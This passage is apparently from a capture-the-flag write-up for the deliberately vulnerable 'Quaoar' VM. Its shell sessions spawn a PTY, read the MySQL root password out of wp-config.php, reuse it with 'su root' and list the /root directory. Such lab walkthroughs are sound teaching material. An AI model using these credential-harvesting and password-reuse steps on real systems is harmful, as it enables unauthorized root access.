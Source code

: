 <p>Now, it's time to escalate our privilages. And to my amusement, in <b>wp-config.php</b> there was root password for <b>mysql</b> database. </p>

{% highlight bash %}
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@Quaoar:/$ cd var/www
cd var/www
www-data@Quaoar:/var/www$ ls -la
ls -la
total 3628
drwxr-xr-x  6 www-data www-data   4096 Oct 24  2016 .
drwxr-xr-x 13 root     root       4096 Jan 15  2017 ..
-rw-r--r--  1 www-data www-data    224 Oct 12  2016 CHANGELOG
-rw-r--r--  1 www-data www-data  35147 Oct 12  2016 COPYING
-rw-r--r--  1 www-data www-data 652654 Oct 23  2016 Hack_The_Planet.jpg
-rw-r--r--  1 www-data www-data 281003 Oct 23  2016 Hack_The_Planet2.jpg
-rw-r--r--  1 www-data www-data 126042 Oct 23  2016 Hack_The_Planet3.jpg
-rw-r--r--  1 www-data www-data   1241 Oct 12  2016 INSTALL
-rw-r--r--  1 www-data www-data   1672 Oct 12  2016 LICENSE
-rw-r--r--  1 www-data www-data 756701 Oct 23  2016 Quaoar.jpg
-rw-r--r--  1 www-data www-data    954 Oct 12  2016 README.md
-rw-r--r--  1 www-data www-data 169045 Oct 23  2016 hack-planet-1280-amox-zone.jpg
-rw-r--r--  1 www-data www-data 261593 Oct 23  2016 hack-planet-high-definition-mobile.jpg
-rw-r--r--  1 www-data www-data 179812 Oct 23  2016 hacker-manifesto-ethical.jpg
-rw-r--r--  1 www-data www-data 616848 Oct 23  2016 hacking.jpg
drwxr-xr-x  2 www-data www-data   4096 Oct 12  2016 hsperfdata_tomcat6
-rw-r--r--  1 www-data www-data    100 Oct 24  2016 index.html
-rw-r--r--  1 www-data www-data 573058 Oct 23  2016 pososibo-ethical-hacking-hack-fond.jpg
-rw-r--r--  1 www-data www-data    271 Oct 24  2016 robots.txt
drwxr-xr-x  2 www-data www-data   4096 Oct 12  2016 tomcat6-tomcat6-tmp
drwxr-xr-x 13 www-data www-data   4096 Oct 12  2016 upload
drwxr-xr-x  5 www-data www-data   4096 Nov 30  2016 wordpress
www-data@Quaoar:/var/www$ cd wordpress
cd wordpress
www-data@Quaoar:/var/www/wordpress$ cat wp-config.php

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'rootpassword!');

{% endhighlight %}

<p>Wil it work? </p>

{% highlight bash %}
www-data@Quaoar:/var/www/wordpress$ su root
su root
Password: rootpassword!
root@Quaoar:/var/www/wordpress# cd /root
cd /root
root@Quaoar:~# ls -la
ls -la
total 48
drwx------  6 root root 4096 Nov 30  2016 .
drwxr-xr-x 22 root root 4096 Oct  7  2016 ..
drwx------  2 root root 4096 Oct  7  2016 .aptitude
-rw-------  1 root root  368 Jan 15  2017 .bash_history
-rw-r--r--  1 root root 3106 Apr 19  2012 .bashrc
drwx------  2 root root 4096 Oct 15  2016 .cache
----------  1 root root   33 Oct 22  2016 flag.txt
-rw-r--r--  1 root root  140 Apr 19  2012 .profile
drwx------  2 root root 4096 Oct 26  2016 .ssh
-rw-------  1 root root 4740 Nov 30  2016 .viminfo
drwxr-xr-x  8 root root 4096 Jan 29  2015 vmware-tools-distrib